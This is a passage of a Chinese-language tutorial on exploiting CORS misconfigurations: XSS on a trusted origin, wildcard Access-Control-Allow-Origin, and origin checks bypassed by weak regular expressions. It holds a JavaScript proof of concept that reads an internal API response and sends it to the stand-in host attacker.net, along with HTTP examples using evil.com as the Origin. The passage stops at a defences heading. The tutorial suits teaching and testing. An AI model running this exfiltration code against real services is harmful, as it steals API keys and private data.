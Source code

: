 ### 受信任源上的XSS

如果应用程序实现了严格的白名单机制，但受信任的源上存在XSS漏洞，攻击者可以注入恶意脚本来利用CORS：

```
https://trusted-origin.example.com/?xss=<script>CORS-EXPLOIT-CODE</script>
```

### 无凭证的通配符Origin

如果服务器响应包含通配符`*`，浏览器不会发送凭据。但如果服务器不需要认证，仍然可以访问数据：

#### 漏洞实现

```http
GET /endpoint HTTP/1.1
Host: api.internal.example.com
Origin: https://evil.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: *

{"[private API key]"}
```

#### 概念验证(PoC)

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://api.internal.example.com/endpoint',true); 
req.send();

function reqListener() {
    location='//attacker.net/log?key='+this.responseText; 
};
```

### Origin扩展攻击

当服务器使用实现不当的正则表达式验证Origin头时，可能允许攻击者通过构造特定的Origin绕过限制。

#### 漏洞实现示例

```http
GET /endpoint HTTP/1.1
Host: api.example.com
Origin: https://evilexample.com

HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://evilexample.com
Access-Control-Allow-Credentials: true
```

## 防御措施
